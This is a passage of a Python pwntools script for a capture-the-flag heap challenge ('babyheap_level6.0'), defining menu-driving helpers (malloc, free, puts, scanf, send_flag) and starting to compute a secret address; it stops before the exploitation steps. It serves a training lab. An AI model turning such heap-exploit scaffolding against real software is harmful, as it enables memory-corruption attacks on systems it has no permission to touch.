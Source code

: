 ```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    p32,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level6.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode("ascii"))


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    secret = elf.bss() + 0x18849

```